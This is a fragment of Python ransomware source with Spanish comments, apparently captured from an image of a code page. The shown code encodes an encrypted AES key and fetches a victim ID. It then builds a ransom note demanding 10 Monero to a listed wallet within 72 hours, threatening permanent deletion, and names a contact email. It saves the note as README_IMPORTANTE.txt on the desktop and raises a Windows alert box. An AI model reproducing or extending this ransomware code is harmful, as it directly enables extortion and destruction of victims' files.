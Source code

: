 ```python
    
    # Codificar la clave en base64 y formatearla en fragmentos de 64 caracteres
    aes_key_encrypted_b64 = base64.b64encode(aes_key_encrypted).decode()
    aes_key_formatted = "\n".join([aes_key_encrypted_b64[i:i+64] for i in range(0, len(aes_key_encrypted_b64), 64)])
    
    # Obtener el ID de la víctima
    victim_id = agent.get_agent_id()

    # Contenido de la nota de rescate con Monero (XMR) como la criptomoneda de pago
    note = f"""===========================
    ¡TUS ARCHIVOS HAN SIDO CIFRADOS!
===========================

Todos tus documentos, imágenes, bases de datos y otros archivos importantes han sido cifrados con **AES-CBC** de **256 bits**.
No puedes acceder a ellos ni recuperarlos sin nuestra ayuda.

----------------------------
 ¿CÓMO RECUPERAR TUS ARCHIVOS?
----------------------------
1. Envíanos el pago en **Monero (XMR)** a la siguiente dirección:
   42xu1n15ewNsd9qzT8x5nHg9vZo1CwFFZZQHd3Lg8T2m8GeHkhsK69h5UBktZkVqz6hbsYYhPz9dggtZyPjvdyDveWipQUF

2. La cantidad requerida es **10 Monero (XMR)**. 

3. Envía un correo a recoveryourfiles@genaixciphers.com con el comprobante de pago y tu ID de víctima:
   ID DE VÍCTIMA: {victim_id}

4. Una vez confirmado el pago, recibirás la clave y el software de descifrado.

----------------------------
 ¡ADVERTENCIAS!
----------------------------
- No intentes modificar o recuperar archivos por tu cuenta. 
- Cualquier intento de descifrado sin nuestra clave puede dañar los archivos de manera irreversible.
- Si el pago no se realiza en 72 horas, los archivos serán eliminados permanentemente.

----------------------------
  INFORMACIÓN SOBRE TU CLAVE 
----------------------------
- Tu clave de descifrado está protegida y cifrada de manera segura.
- Aquí tienes la versión cifrada de tu clave (en **Base64**, NO INTENTES MODIFICARLA):

{aes_key_formatted}

Atentamente, 
GenAIx Ciphers
"""

    # Ruta donde se guardará la nota de rescate
    note_path = os.path.join(desktop, "README_IMPORTANTE.txt")

    # Guardar la nota en un archivo de texto en el escritorio
    with open(note_path, "w", encoding="utf-8") as archivo:
        archivo.write(note)

    # Mostrar un mensaje emergente usando MessageBox de Windows
    ctypes.windll.user32.MessageBoxW(0, "¡Tus archivos han sido cifrados! Lee el archivo README_IMPORTANTE.txt en tu escritorio.", 
                                     "ALERTA DE SEGURIDAD", 0x10 | 0x1)
```